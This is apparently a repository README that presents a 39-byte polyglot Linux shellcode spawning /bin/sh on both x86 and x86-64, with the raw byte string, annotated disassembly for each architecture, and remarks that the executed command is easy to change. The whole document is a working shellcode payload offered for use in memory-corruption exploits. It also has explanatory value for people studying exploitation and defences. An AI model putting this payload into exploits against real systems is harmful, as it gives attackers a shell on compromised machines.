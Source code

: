 This shellcode executes `execve("/bin/sh", {"/bin/sh", 0}, 0)`, on both x86 and
x86-64 linux.


```c
"\x48\x31\xc0\x50\x50\x5a\xeb\x12\x5f\x57\x54\x40\x75\x05\xb0\x3b\x5e\x0f\x05\xb0\x0b\x89\xfb\x59\xcd\x80\xe8\xe9\xff\xff\xff/bin/sh"
```

(39 bytes, including null)

```
x86 disas:
   0:   48                      dec    eax
   1:   31 c0                   xor    eax,eax
   3:   50                      push   eax
   4:   50                      push   eax
   5:   5a                      pop    edx
   6:   eb 12                   jmp    0x1a
   8:   5f                      pop    edi
   9:   57                      push   edi
   a:   54                      push   esp
   b:   40                      inc    eax
   c:   75 05                   jne    0x13

    ...

  13:   b0 0b                   mov    al,0xb
  15:   89 fb                   mov    ebx,edi
  17:   59                      pop    ecx
  18:   cd 80                   int    0x80
  1a:   e8 e9 ff ff ff          call   0x8
  1f:   "/bin/sh"

x86-64 disas:
   0:   48 31 c0                xor    rax,rax
   3:   50                      push   rax
   4:   50                      push   rax
   5:   5a                      pop    rdx
   6:   eb 12                   jmp    0x1a
   8:   5f                      pop    rdi
   9:   57                      push   rdi
   a:   54                      push   rsp
   b:   40 75 05                rex jne 0x13
   e:   b0 3b                   mov    al,0x3b
  10:   5e                      pop    rsi
  11:   0f 05                   syscall 

    ...

  1a:   e8 e9 ff ff ff          call   0x8
  1f:   "/bin/sh"
```

There is one catch however, the shellcode must be followed by a null byte,
which limits its universal usefulness.

One big advantage is that the command executed can be modified trivially, just
modify the end of the shellcode.
